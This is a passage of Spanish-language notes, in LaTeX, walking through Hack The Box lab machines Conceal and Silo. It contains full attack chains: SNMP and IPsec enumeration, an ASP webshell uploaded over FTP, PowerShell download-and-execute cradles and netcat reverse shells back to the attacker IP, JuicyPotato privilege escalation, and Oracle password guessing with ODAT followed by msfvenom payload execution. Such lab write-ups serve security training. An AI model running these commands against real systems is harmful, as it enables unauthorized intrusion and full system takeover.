appunte a la buena ip y estamos como administrator.

\hypertarget{conceal}{%
\chapter*{Conceal}\label{conceal}}
\addcontentsline{toc}{chapter}{Conceal}

\hypertarget{introduccion-17}{%
\section*{Introduccion}\label{introduccion-17}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 10/08/2021 se llama Conceal
.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=RtztYLMZMe8}{\includegraphics{https://img.youtube.com/vi/RtztYLMZMe8/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-17}{%
\section*{Enumeracion}\label{enumeracion-17}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-17}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-17}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-17}{%
\subsubsection*{Ping}\label{ping-17}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.116}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-17}{%
\subsubsection*{Nmap}\label{nmap-17}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.116}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.116}
\end{Highlighting}
\end{Shaded}

Aqui vemos que no hay ningun puerto abiertos por TCP, controllamos si hay puertos abiertos por UDP

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- -sU --min-rate 10000 --open -n -Pn 10.10.10.116}
\FunctionTok{nmap}\NormalTok{ -sU -p500 -sC -sV 10.10.10.116 -oN udpScan}
\end{Highlighting}
\end{Shaded}

Aqui hemos encontrado el puerto 500 pero siempre vamos a intentar ver si el puerto 161 que NMAP no siempre lo reporta como abierto
porque puede ser filtered. Utilizamos la heramienta \textbf{onesixtyone} para intentar ver si conseguimos ver la \emph{Community String} del servicio.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{onesixtyone}\NormalTok{ 10.10.10.116}
\end{Highlighting}
\end{Shaded}

Aqui vemos que el servicio esta habilitado y que su \textbf{Community string} es la public

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
161 (UPD) & snmp & Enumeracion de informacion con la CS Public &\tabularnewline
500 (UPD) & IKE vpn tunneling & Conneccion por VPN &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{enumeracion-de-informacion-por-puerto-161-con-la-cs-public}{%
\subsection*{Enumeracion de informacion por puerto 161 con la CS public}\label{enumeracion-de-informacion-por-puerto-161-con-la-cs-public}}
\addcontentsline{toc}{subsection}{Enumeracion de informacion por puerto 161 con la CS public}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{snmpwalk}\NormalTok{ -c public -v2c 10.10.10.116}
\end{Highlighting}
\end{Shaded}

De seguida aqui vemos un hash para un VPN. Lo copiamos en nuestra maquina de attackante y vamos a tirar de RainbowTables (claves precomputadas)
para desencryptar el hash. \href{https://crackstation.net}{crackstation}

Esto nos a permitido encrontrar el valor del hash.

\hypertarget{enumeracion-del-puerto-500}{%
\subsection*{Enumeracion del puerto 500}\label{enumeracion-del-puerto-500}}
\addcontentsline{toc}{subsection}{Enumeracion del puerto 500}

Como aqui hemos encontrado el valor del hash para la conneccion por VPN, vamos a enumerar el puerto 500. Para esto, buscamos por internet
si existe un ike scan en github y lo encontramos. Intentando saver si viene de forma nativa en Parrot o Kali vemos que es el caso.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{ike-scan}\NormalTok{ 10.10.10.116}
\end{Highlighting}
\end{Shaded}

nos pone un mensaje de error y si le hacemos un \texttt{strace\ ike-scan\ 10.10.10.116} vemos que el error viene de nuestra maquina.
Si le hacemos un \texttt{lsof\ -i:500} vemos que effectivamente nuestra maquina de atacante ya esta usando el puerto 500 que se llama charon.
le hacemos un \texttt{pkill\ charon} y volmemos a hacerle un \texttt{ike-scan\ 10.10.10.116} ya vemos cosas pero de forma turbia.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{pkill}\NormalTok{ charon}
\ExtensionTok{ike-scan}\NormalTok{ -M 10.10.10.116 }\KeywordTok{|} \FunctionTok{tee}\NormalTok{ output}
\end{Highlighting}
\end{Shaded}

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Conceal-ike-scan} \caption{ike scan output}\label{fig:unnamed-chunk-47}
\end{figure}

Aqui ya vemos todas las informaciones necessarias para podernos crear unos ficheros de configuracion para connectarnos por VPN.

\hypertarget{creamos-los-ficheros-de-configuracion-para-la-vpn}{%
\subsection*{Creamos los ficheros de configuracion para la VPN}\label{creamos-los-ficheros-de-configuracion-para-la-vpn}}
\addcontentsline{toc}{subsection}{Creamos los ficheros de configuracion para la VPN}

Los dos ficheros que tenemos que tocar para configurar la VPN son:

\begin{itemize}
\tightlist
\item
  el fichero \texttt{/etc/ipsec.secrets} para la authentificacion
\item
  el fichero \texttt{/etc/ipsec.conf} para la configuracion
\end{itemize}

Si buscamos por internet como se configura el fichero ipsec.secrets y encontramos algo el la web \href{https://www.systutorials.com/docs/linux/man/5-ipsec.secrets}{systutorials}

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Conceal-ipsec-secrets-web} \caption{info ipsec.secrets}\label{fig:unnamed-chunk-48}
\end{figure}

Añadimos lo siguiente en nuestro fichero \texttt{/etc/ipsec.secrets}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{%any}\NormalTok{ : PSK }\StringTok{"Dudecake1!"}
\end{Highlighting}
\end{Shaded}

y en el fichero de configuracion \texttt{/etc/ipsec.conf}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{conn}\NormalTok{ conceal}
        \VariableTok{ike=}\NormalTok{3des-sha1-modp1024}
        \VariableTok{esp=}\NormalTok{3des-sha1}
        \VariableTok{type=}\NormalTok{transport}
        \VariableTok{auto=}\NormalTok{add }\CommentTok{# ondemand start}
        \VariableTok{authby=}\NormalTok{secret}
        \VariableTok{keyexchange=}\NormalTok{ikev1}
        \VariableTok{left=}\NormalTok{10.10.14.8}
        \VariableTok{right=}\NormalTok{10.10.10.116}
\end{Highlighting}
\end{Shaded}

Ahora intentamos connectarnos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{ipsec}\NormalTok{ restart}
\ExtensionTok{ipsec}\NormalTok{ up conceal}
\end{Highlighting}
\end{Shaded}

Nos da un error. Intentamos forzar la conneccion por tcp.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{conn}\NormalTok{ conceal}
        \VariableTok{ike=}\NormalTok{3des-sha1-modp1024}
        \VariableTok{esp=}\NormalTok{3des-sha1}
        \VariableTok{type=}\NormalTok{transport}
        \VariableTok{auto=}\NormalTok{add }\CommentTok{# ondemand start}
        \VariableTok{authby=}\NormalTok{secret}
        \VariableTok{keyexchange=}\NormalTok{ikev1}
        \VariableTok{left=}\NormalTok{10.10.14.8}
        \VariableTok{right=}\NormalTok{10.10.10.116}
        \VariableTok{rightsubnet=}\NormalTok{10.10.10.116[}\ExtensionTok{tcp}\NormalTok{]}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{ipsec}\NormalTok{ restart}
\ExtensionTok{ipsec}\NormalTok{ up conceal}

\CommentTok{#Output}
\ExtensionTok{connection} \StringTok{'conceal'}\NormalTok{ established successfully}
\end{Highlighting}
\end{Shaded}

\hypertarget{enumeracion-con-nmap-por-sondeo-tcp-connect}{%
\subsection*{Enumeracion con nmap por sondeo TCP connect}\label{enumeracion-con-nmap-por-sondeo-tcp-connect}}
\addcontentsline{toc}{subsection}{Enumeracion con nmap por sondeo TCP connect}

Como ya estamos connectados, vamos a poder rescannear la maquina con nmap. El problema es que como estamos por VPN.
el paramettro \texttt{-sS} no va a funccionar. Tenemos que pasar por un sondeo TCP connect

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sT --min-rate 5000 --open -vvv -n -Pn -p- 10.10.10.116 -oG allPorts}
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p21,80,135,139,445,49664,49666,49667,49668,49669 10.10.10.116 -oN targeted.}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
21 & ftp & Conneccion anonyma &\tabularnewline
80 & http & Web, fuzzing &\tabularnewline
135 & msrpc & &\tabularnewline
139 & netbios & &\tabularnewline
445 & smb & Null session &\tabularnewline
49664 & msrpc & Puertos por defecto de windows &\tabularnewline
49665 & msrpc & Puertos por defecto de windows &\tabularnewline
49666 & msrpc & Puertos por defecto de windows &\tabularnewline
49667 & msrpc & Puertos por defecto de windows &\tabularnewline
49668 & msrpc & Puertos por defecto de windows &\tabularnewline
49669 & msrpc & Puertos por defecto de windows &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-4}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-4}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-12}{%
\subsubsection*{Whatweb}\label{whatweb-12}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.116}
\end{Highlighting}
\end{Shaded}

Nada muy interressante aqui

\hypertarget{checkear-la-web}{%
\subsubsection*{Checkear la web}\label{checkear-la-web}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Sabemos que es un IIS 10.0 pero poco mas. Vamos a fuzzear routas.

\hypertarget{fuzzing-con-wfuzz-7}{%
\subsubsection*{Fuzzing con WFuzz}\label{fuzzing-con-wfuzz-7}}
\addcontentsline{toc}{subsubsection}{Fuzzing con WFuzz}

Fuzzeamos el puerto 80

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.116/FUZZ}
\end{Highlighting}
\end{Shaded}

Encontramos un routa \texttt{/upload}

Si miramos con firefox vemos que tenemos capacidad de directory listing pero no hay nada. Intentamos subir cosas por ftp
a ver si se nos lista aqui.

\hypertarget{conneccion-anonyma-por-ftp}{%
\subsection*{Conneccion anonyma por FTP}\label{conneccion-anonyma-por-ftp}}
\addcontentsline{toc}{subsection}{Conneccion anonyma por FTP}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ftp}\NormalTok{ 10.10.10.116}
\ExtensionTok{Name}\NormalTok{: anonymous}
\FunctionTok{dir}
\FunctionTok{ls}\NormalTok{ -la}
\end{Highlighting}
\end{Shaded}

En otro terminal creamos un fichero de prueba \texttt{echo\ "EEEEE"\ \textgreater{}\ prueba.txt} y lo subimos por ftp.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{put}\NormalTok{ prueba.txt}
\end{Highlighting}
\end{Shaded}

Si miramos en la web en la direccion \texttt{/upload} podemos ver el fichero prueba.txt.

\hypertarget{vulnerability-assessment-4}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-4}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{conneccion-anonyma-por-ftp-1}{%
\subsection*{Conneccion anonyma por FTP}\label{conneccion-anonyma-por-ftp-1}}
\addcontentsline{toc}{subsection}{Conneccion anonyma por FTP}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ftp}\NormalTok{ 10.10.10.116}
\ExtensionTok{Name}\NormalTok{: anonymous}
\FunctionTok{dir}
\FunctionTok{ls}\NormalTok{ -la}
\end{Highlighting}
\end{Shaded}

En otro terminal creamos un fichero de prueba \texttt{echo\ "EEEEE"\ \textgreater{}\ prueba.txt} y lo subimos por ftp.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{put}\NormalTok{ prueba.txt}
\end{Highlighting}
\end{Shaded}

Si miramos en la web en la direccion \texttt{/upload} podemos ver el fichero prueba.txt.

\hypertarget{remote-code-execution-con-fichero-asp}{%
\subsection*{Remote Code execution con fichero asp}\label{remote-code-execution-con-fichero-asp}}
\addcontentsline{toc}{subsection}{Remote Code execution con fichero asp}

Buscamos una reverse shell con la pagina web \href{https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html}{hackingdream}
y vemos el oneliner para la webshell asp.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{vi}\NormalTok{ s4vishell.asp}

\OperatorTok{<}\ExtensionTok\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

lo subimos con ftp

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{put}\NormalTok{ s4vishell.asp}
\end{Highlighting}
\end{Shaded}

y si miramos por la web \texttt{http://10.10.10.116/upload/s4vishell.asp?cmd=whoami} y ya tenemos capacidad de remote code execution.

\hypertarget{vuln-exploit-gaining-access-4}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-4}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{conneccion-con-una-shell-typo-powershell-de-nishang}{%
\subsection*{Conneccion con una shell typo powershell de nishang}\label{conneccion-con-una-shell-typo-powershell-de-nishang}}
\addcontentsline{toc}{subsection}{Conneccion con una shell typo powershell de nishang}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/samratashok/nishang}
\BuiltInTok{cd}\NormalTok{ nishang}
\FunctionTok{ls}
\BuiltInTok{cd}\NormalTok{ Shells}
\FunctionTok{ls}
\FunctionTok{cp}\NormalTok{ Invoke-PowerShellTcp.ps1 PS.ps1}
\ExtensionTok{vi}\NormalTok{ PS.ps1}
\end{Highlighting}
\end{Shaded}

Como siempre le añadimos \texttt{Invoke-PowerShellTcp\ -Reverse\ -IPAddress\ 10.10.14.8\ -Port\ 443} al final del fichero.

Nos compartimos un servidor http con python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}

Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}

Y por la webshell nos descargamos el fichero PS.ps1 \texttt{http://10.10.10.116/upload/s4vishell.asp?cmd=powershell\ IEX(New-Object\ Net.WebClient).downloadString(\textquotesingle{}http://10.10.14.8/PS.ps1\textquotesingle{})}

Ya podemos comprobar que estamos a dentro de la maquina y que podemos ver la flag.

\begin{quote}
Note: Si le hacemos un \texttt{{[}Environment{]}::Is64BitOperatingSystem} y un \texttt{{[}Environment{]}::Is64BitProcess}, podemos ver que el process nos da False. Aqui es recommendado siempre tirar
de la powershell nativa que seria \texttt{http://10.10.10.116/upload/s4vishell.asp?cmd=C:\textbackslash{}Windows\textbackslash{}SysNative\textbackslash{}WindowsPowerShell\textbackslash{}v1.0\textbackslash{}powershell.exe\ IEX(New-Object\ Net.WebClient).downloadString(\textquotesingle{}http://10.10.14.8/PS.ps1\textquotesingle{})}
\end{quote}

\hypertarget{privilege-escalation-4}{%
\section*{Privilege Escalation}\label{privilege-escalation-4}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-13}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-13}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\ExtensionTok{systeminfo}
\FunctionTok{whoami}\NormalTok{ /priv}
\end{Highlighting}
\end{Shaded}

Aqui vemos que tenemos privilegios SeImpersonatePrivilege, tiramos como siempre de JuicyPotatoe.exe

Lo descargamos en la maquina de atacante y lo enviamos a la victima.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe}
\FunctionTok{cp}\NormalTok{ /usr/share/sqlninja/apps/nc.exe}
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}

En la maquina victima lo descargamos

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}Windows\textbackslash{}Temp}
\FunctionTok{mkdir}\NormalTok{ privesc}
\BuiltInTok{cd}\NormalTok{ privesc}
\ExtensionTok{iwr}\NormalTok{ -uri http://10.10.14.8/JuicyPotato.exe -OutFile JuicyPotato.exe}
\ExtensionTok{iwr}\NormalTok{ -uri http://10.10.14.8/nc.exe -OutFile nc.exe}
\end{Highlighting}
\end{Shaded}

Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}

Nos connectamos con el servicio nc con el JuicyPotato.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./JuicyPotato.exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.exe -a }\StringTok{"/c .\textbackslash{}nc.exe -e cmd 10.10.14.8 443"}
\end{Highlighting}
\end{Shaded}

Aqui nos sale une error 10038. Esto suele passar cuando el CLSID no es el correcto. Como savemos con el systeminfo
que estamos en una maquina Windows10 Enterprise, podemos buscar el CLSID correcto en \href{https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md}{Interesting CLSID}
encontramos el CLSID que corresponde y con el parametro \texttt{-c}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./JuicyPotato.exe}\NormalTok{ -t * -l 1337 -p C:\textbackslash{}Windows\textbackslash{}System32\textbackslash{}cmd.exe -a }\StringTok{"/c .\textbackslash{}nc.exe -e cmd 10.10.14.8 443"}\NormalTok{ -c }\StringTok{"\{5B3E6773-3A99-4A3D-8096-7765DD11785C\}"}
\end{Highlighting}
\end{Shaded}

La reverse shell nos a functionnado y con \texttt{whoami} vemos que ya somos nt authority\system y podemos ver la flag.

\hypertarget{silo}{%
\chapter*{Silo}\label{silo}}
\addcontentsline{toc}{chapter}{Silo}

\hypertarget{introduccion-18}{%
\section*{Introduccion}\label{introduccion-18}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 11/08/2021 se llama Silo
.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=-nb98Pb8oP0\&t=910s}{\includegraphics{https://img.youtube.com/vi/-nb98Pb8oP0/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-18}{%
\section*{Enumeracion}\label{enumeracion-18}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-18}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-18}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-18}{%
\subsubsection*{Ping}\label{ping-18}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.82}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-18}{%
\subsubsection*{Nmap}\label{nmap-18}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.82}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.82 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p80,135,139,445,1521,5985,47001,49152,49153,49154,49155,49159,49160,49161,49162 10.10.10.82 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
80 & http & Web, fuzzing &\tabularnewline
135 & msrpc & &\tabularnewline
139 & netbios & &\tabularnewline
445 & smb & Null session &\tabularnewline
1521 & oracle-tns & Attacke con ODAT &\tabularnewline
5985 & msrpc & Puertos por defecto de windows &\tabularnewline
47001 & msrpc & Puertos por defecto de windows &\tabularnewline
49152 & msrpc & Puertos por defecto de windows &\tabularnewline
49153 & msrpc & Puertos por defecto de windows &\tabularnewline
49154 & msrpc & Puertos por defecto de windows &\tabularnewline
49155 & msrpc & Puertos por defecto de windows &\tabularnewline
49159 & msrpc & Puertos por defecto de windows &\tabularnewline
49160 & msrpc & Puertos por defecto de windows &\tabularnewline
49161 & msrpc & Puertos por defecto de windows &\tabularnewline
49162 & msrpc & Puertos por defecto de windows &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-el-smb-1}{%
\subsection*{Analyzando el SMB}\label{analyzando-el-smb-1}}
\addcontentsline{toc}{subsection}{Analyzando el SMB}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.82}
\ExtensionTok{smbclient}\NormalTok{ -L 10.10.10.82 -N}
\end{Highlighting}
\end{Shaded}

Vemos que estamos en frente de una maquina Windows Server 2021 R2 de 64 bit pro que se llama \textbf{SILO} en el dominio \textbf{SILO} y poco mas

\hypertarget{analyzando-la-web-5}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-5}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-13}{%
\subsubsection*{Whatweb}\label{whatweb-13}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.82}
\end{Highlighting}
\end{Shaded}

Nada muy interressante aqui

\hypertarget{checkear-la-web-1}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-1}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Sabemos que es un IIS 8.5 y asp.net pero poco mas. Vamos a fuzzear routas.

\hypertarget{vulnerability-assessment-5}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-5}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{oracle-ataque-con-odat}{%
\subsection*{Oracle ataque con ODAT}\label{oracle-ataque-con-odat}}
\addcontentsline{toc}{subsection}{Oracle ataque con ODAT}

\hypertarget{installacion-de-odat}{%
\subsubsection*{Installacion de ODAT}\label{installacion-de-odat}}
\addcontentsline{toc}{subsubsection}{Installacion de ODAT}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/quentinhardy/odat}
\BuiltInTok{cd}\NormalTok{ odat}
\FunctionTok{git}\NormalTok{ submodule init}
\FunctionTok{git}\NormalTok{ submodule update}
\FunctionTok{sudo}\NormalTok{ apt-get install libaio1 python3-dev alien python3-pip}
\ExtensionTok{pip3}\NormalTok{ install cx_Oracle}
\end{Highlighting}
\end{Shaded}

Como la maquina victima es de 64 bits, descargamos los client basic sdk y sqlplus de la web de oracle

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{mkdir}\NormalTok{ isolation}
\BuiltInTok{cd}\NormalTok{ isolation}
\FunctionTok{wget}\NormalTok{ https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-basic-21.1.0.0.0-1.x86_64.rpm}
\FunctionTok{wget}\NormalTok{ https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-sqlplus-21.1.0.0.0-1.x86_64.rpm}
\FunctionTok{wget}\NormalTok{ https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-devel-21.1.0.0.0-1.x86_64.rpm}
\end{Highlighting}
\end{Shaded}

ahora transformamos los \texttt{.rpm} en \texttt{.deb} y lo installamos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{alien}\NormalTok{ --to-deb *.rpm}
\ExtensionTok{dpkg}\NormalTok{ -i *.deb}
\end{Highlighting}
\end{Shaded}

Añadimos las variables de entorno el la .zshrc

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ /usr/lib/oracle}

\CommentTok{#Output}
\ExtensionTok{21}

\ExtensionTok{vi}\NormalTok{ ~/.zshrc}

\BuiltInTok{export} \VariableTok{ORACLE_HOME=}\NormalTok{/usr/lib/oracle/21/client64/}
\BuiltInTok{export} \VariableTok{LD_LIBRARY_PATH=$LD_LIBRARY_PATH}\NormalTok{:}\VariableTok{$ORACLE_HOME}\NormalTok{/lib}
\BuiltInTok{export} \VariableTok{PATH=$\{ORACLE_HOME\}}\NormalTok{bin:}\VariableTok{$PATH}
\end{Highlighting}
\end{Shaded}

Checkeamos que todo se aya installado bien

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{sqlplus64}
\ExtensionTok{python3}\NormalTok{ odat.py --help}
\end{Highlighting}
\end{Shaded}

\hypertarget{ataque-con-odat}{%
\subsubsection*{Ataque con ODAT}\label{ataque-con-odat}}
\addcontentsline{toc}{subsubsection}{Ataque con ODAT}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Buscamos si encontramos SID's

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ odat.py sidguesser -s 10.10.10.82}
\end{Highlighting}
\end{Shaded}
\item
  Ataque de typo password guesser

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{locate}\NormalTok{ oracle_ }\KeywordTok{|} \FunctionTok{grep} \StringTok{"pass"}
\FunctionTok{cat}\NormalTok{ /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt }\KeywordTok{|} \FunctionTok{tr} \StringTok{' '} \StringTok{'/'} \KeywordTok{|} \OperatorTok{>} \ExtensionTok{passwords}
\ExtensionTok{python3}\NormalTok{ odat.py passwordguesser -s 10.10.10.82 -d XE --accounts-file passwords}
\end{Highlighting}
\end{Shaded}
\item
  Ahora que tenemos un usuario y una contraseña utilizamos el parametro utlfile que permite descargar, uploadear y supprimir ficheros

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msfvenom}\NormalTok{ -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f exe -o shell.exe}
\ExtensionTok{python3}\NormalTok{ odat.py utlfile -s 10.10.10.82 -d XE -U }\StringTok{"scott"}\NormalTok{ -P }\StringTok{"tiger"}
\ExtensionTok{python3}\NormalTok{ odat.py utlfile -s 10.10.10.82 -d XE -U }\StringTok{"scott"}\NormalTok{ -P }\StringTok{"tiger"}\NormalTok{ --putFile /Temp shell.exe}
\ExtensionTok{python3}\NormalTok{ odat.py utlfile -s 10.10.10.82 -d XE -U }\StringTok{"scott"}\NormalTok{ -P }\StringTok{"tiger"}\NormalTok{ --putFile /Temp shell.exe}
\end{Highlighting}
\end{Shaded}
\item
  No tenemos sufficientes privilegios para subir archivos pero ODAT tiene un parametro \texttt{-\/-sysdba} que nos puede ayudar

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ odat.py utlfile -s 10.10.10.82 -d XE -U }\StringTok{"scott"}\NormalTok{ -P }\StringTok{"tiger"}\NormalTok{ --putFile /Temp shell.exe --sysdba}
\end{Highlighting}
\end{Shaded}
\item
  Intentamos ganar accesso al systema
\end{enumerate}

\hypertarget{vuln-exploit-gaining-access-5}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-5}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-odat}{%
\subsection*{Ganando accesso con ODAT}\label{ganando-accesso-con-odat}}
\addcontentsline{toc}{subsection}{Ganando accesso con ODAT}

Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}

Intentamos ejecutar el exploit con odat

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ odat.py --help}
\ExtensionTok{python3}\NormalTok{ odat.py externaltable -s 10.10.10.82 -d XE -U }\StringTok{"scott"}\NormalTok{ -P }\StringTok{"tiger"}\NormalTok{ --sysdba --exec /Temp shell.exe}
\end{Highlighting}
\end{Shaded}

Ya hemos ganado accesso al systema y ademas somos nt authority\system que significa que no es necessario hacer escalada de privilegios.

\hypertarget{forest}{%
\chapter*{Forest}\label{forest}}
\addcontentsline{toc}{chapter}{Forest}

\hypertarget{introduccion-19}{%
\section*{Introduccion}\label{introduccion-19}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 12/08/2021 se llama Forest.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=OxLeD1x3nRc}{\includegraphics{https://img.youtube.com/vi/OxLeD1x3nRc/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-19}{%
\section*{Enumeracion}\label{enumeracion-19}}
\addcontentsline{toc}{section}{Enumeracion}

